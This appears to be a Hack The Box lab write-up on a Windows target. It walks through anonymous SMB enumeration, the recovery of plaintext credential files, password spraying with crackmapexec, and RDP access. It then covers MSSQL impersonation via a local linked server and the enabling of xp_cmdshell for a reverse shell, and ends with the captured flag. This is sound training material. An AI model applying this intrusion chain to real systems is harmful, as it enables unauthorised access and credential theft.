

<html>
  <head>
    <link rel="icon" href="/assets/imgs/beans.png" type="image/png">
  </head>
  
</html>

[Main Page](/index)

---

# Attacking Common Services - Hard

This is the last skill assessment in this module! A fun assessment exploiting a misconfigured SMB share as well as a misconfigured Microsoft SQL service. 

So let’s start with an nmap scan!

```bash
# Nmap 7.94SVN scan initiated Sun Feb  2 18:15:19 2025 as: /usr/lib/nmap/nmap --privileged -p135,445,1433,3389 -sC -sV -oN nmap.out 10.129.203.10
Nmap scan report for 10.129.203.10
Host is up (0.086s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.203.10:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.203.10:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-02-02T23:16:12+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-02-02T23:07:30
|_Not valid after:  2055-02-02T23:07:30
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-02-02T23:16:12+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2025-02-01T23:07:19
|_Not valid after:  2025-08-03T23:07:19
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-02T23:15:32+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-02T23:15:33
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  2 18:16:12 2025 -- 1 IP address (1 host up) scanned in 52.68 seconds

```

Looks like a windows machine running SMB, MSSQL, and RDP. Let’s look at SMB first.



Zoinks! It allows us to list the shares without authentication. Let’s dig around

```bash
$ smbclient -N \\\\10.129.203.10\\Home
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 21 17:18:21 2022
  ..                                  D        0  Thu Apr 21 17:18:21 2022
  HR                                  D        0  Thu Apr 21 16:04:39 2022
  IT                                  D        0  Thu Apr 21 16:11:44 2022
  OPS                                 D        0  Thu Apr 21 16:05:10 2022
  Projects                            D        0  Thu Apr 21 16:04:48 2022

                7706623 blocks of size 4096. 3167735 blocks available
smb: \>
```

```bash
smb: \HR\> ls
  .                                   D        0  Thu Apr 21 16:04:39 2022
  ..                                  D        0  Thu Apr 21 16:04:39 2022
                                                                                                                                        7706623 blocks of size 4096. 3167735 blocks available
smb: \HR\> cd ../IT
smb: \IT\> ls
  .                                   D        0  Thu Apr 21 16:11:44 2022
  ..                                  D        0  Thu Apr 21 16:11:44 2022
  Fiona                               D        0  Thu Apr 21 16:11:53 2022
  John                                D        0  Thu Apr 21 17:15:09 2022
  Simon                               D        0  Thu Apr 21 17:16:07 2022
                                                                                                                                        7706623 blocks of size 4096. 3167735 blocks available
smb: \IT\>
```

```bash
smb: \IT\Simon\> ls
  .                                   D        0  Thu Apr 21 17:16:07 2022
  ..                                  D        0  Thu Apr 21 17:16:07 2022
  random.txt                          A       94  Thu Apr 21 17:16:48 2022
                                                                                                                                        7706623 blocks of size 4096. 3167735 blocks available
smb: \IT\Simon\> get random.txt
getting file \IT\Simon\random.txt of size 94 as random.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \IT\Simon\>
```

```bash
─$ cat random.txt
Credentials

(k20ASD10934kadA
KDIlalsa9020$
JT9ads02lasSA@
Kaksd032klasdA#
LKads9kasd0-@
```

```bash
smb: \IT\> cd Fiona
smb: \IT\Fiona\> ls
  .                                   D        0  Thu Apr 21 16:11:53 2022
  ..                                  D        0  Thu Apr 21 16:11:53 2022
  creds.txt                           A      118  Thu Apr 21 16:13:11 2022
                                                                                                                                        7706623 blocks of size 4096. 3167727 blocks available
smb: \IT\Fiona\> get creds.txt
getting file \IT\Fiona\creds.txt of size 118 as creds.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \IT\Fiona\>
```

```bash
$ cat creds.txt
Windows Creds

kAkd03SA@#!
48Ns72!bns74@S84NNNSl
SecurePassword!
Password123!
SecureLocationforPasswordsd123!!
```

```bash
smb: \IT\> cd John
smb: \IT\John\> ls
  .                                   D        0  Thu Apr 21 17:15:09 2022
  ..                                  D        0  Thu Apr 21 17:15:09 2022
  information.txt                     A      101  Thu Apr 21 17:14:58 2022
  notes.txt                           A      164  Thu Apr 21 17:13:40 2022
  secrets.txt                         A       99  Thu Apr 21 17:15:55 2022
                                                                                                                                        7706623 blocks of size 4096. 3167727 blocks available
smb: \IT\John\> mget *
Get file information.txt? y
getting file \IT\John\information.txt of size 101 as information.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
Get file notes.txt? y
getting file \IT\John\notes.txt of size 164 as notes.txt (0.7 KiloBytes/sec) (average 0.5 KiloBytes/sec)
Get file secrets.txt? y
getting file \IT\John\secrets.txt of size 99 as secrets.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \IT\John\>
```

```bash
$ cat information.txt
To do:
- Keep testing with the database.
- Create a local linked server.
- Simulate Impersonation.
$ cat notes.txt
Hack The Box is a massive, online cybersecurity training platform, allowing individuals, companies, universities and all kinds of organizations around the world ...
$ cat secrets.txt
Password Lists:

1234567
(DK02ka-dsaldS
Inlanefreight2022
Inlanefreight2022!
TestingDB123
```

So what are we looking at here. We have some user folders (giving us possible usernames) with some note files that could be possible passwords! We can also answer `Question 1`. After putting the users in a users file and combining all the passwords into a passwords file we can try and pwn some accounts with tools like `crackmapexc` and `hydra`.

```bash
$ crackmapexec smb 10.129.203.10 -u users.txt -p passwords --local-auth
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\simon:1234567
```

Crackmapexec gives us a user for smb. 

And while crackmapexec does support rdp I figured we used hydra just to showcase it. 


And we get a hit! We can answer `Question 2`.

So let’s login to rdp! I like to use `xfreerdp`.

```bash
xfreerdp /v:10.129.203.10 /u:fiona /p:'48Ns72!bns74@S84NNNSl'
```

Looking at the Users folder we can see some more local users. 


We can take at the sql database from the command prompt by running `sqlcmd` 


The master, tempdb, and model databases are all default for mssql so we’re really just interested in the `TestingDB` and `TestAppDB`.


`TestingDB` is empty, and we can’t access the `TestAppDB`.


This tells me that is must be important! We can enumerate the service further by checking if we (fiona) are allowed to impersonate any other user accounts. Like so:


We can! There are two users `john` and `simon` that we can impersonate. Let’s see if either are admin accounts.


The outputted `0` means that there aren’t any admin use accounts. But perhaps either of them can access the `TestAppDB`!


Well, rats. Neither of them can access the database. Looking back at the `information.txt` file we got from smb.

```bash
To do:
- Keep testing with the database.
- Create a local linked server.
- Simulate Impersonation.
```

We found out about impersonation, but we didn’t check for any linked servers! Let’s check!


Aha! We have two linked servers, only one of them being remote. The `0` under `LOCAL.TEST.LINKED.SRV` tells us that the linked server is running local. We can’t access the `WINSRV02\SQLEXPRESS` as the box is a standalone machine, however in a real world scenario it would be good to checkout too.

Well let’s try to connect to our linked server:


Rats! We don’t have access. However we are currently running as `fiona`. So what if we impersonate another user?


Sweet! We can list the databases, and they appear to be the same! And enumerating our `john` user on the linked server further:


We can see toward the bottom that we got a `1` from our `is_srvrolmember(''sysadmin'')` query, meaning the `john` user is an admin on the linked server! With this info we can answer `Question 3`.

Let’s try reading `TestAppDB` now!


Sweet! More users and passwords. These credentials don’t actually get us anywhere however. Another thing we can try is to get code execution as admin using the `xp_cmdshell` feature of mssql. This is disabled by default, but we can enable it since we have admin privileges.


And boom! We can execute code as root on the machine because our linked server is running locally on the box. We can slap in a reverse shell into our `xp_cmdshell`. I used the base64 encoded one from [revshells.com](https://www.revshells.com/) to avoid any badchars.


Radical!! We have officially pwned the box!

```bash
PS C:\Windows\system32> cd C:\users\administrator\desktop
PS C:\users\administrator\desktop> dir

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/21/2022   4:07 PM             27 flag.txt

PS C:\users\administrator\desktop> type flag.txt
HTB{46u$!n9_l!nk3d_$3rv3r$}
PS C:\users\administrator\desktop>
```

And we can grab the root flag, answering `Question 4`.

## Conclusion

We were able to find usernames and possible passwords from an insecure SMB share. We were then able to use them and gain a foothold via RDP. And finally, we were able to abuse Microsoft SQL via account impersonation and a locally running linked database to escalate our privileges to the Administrator account.

Thanks for reading! Cheers.
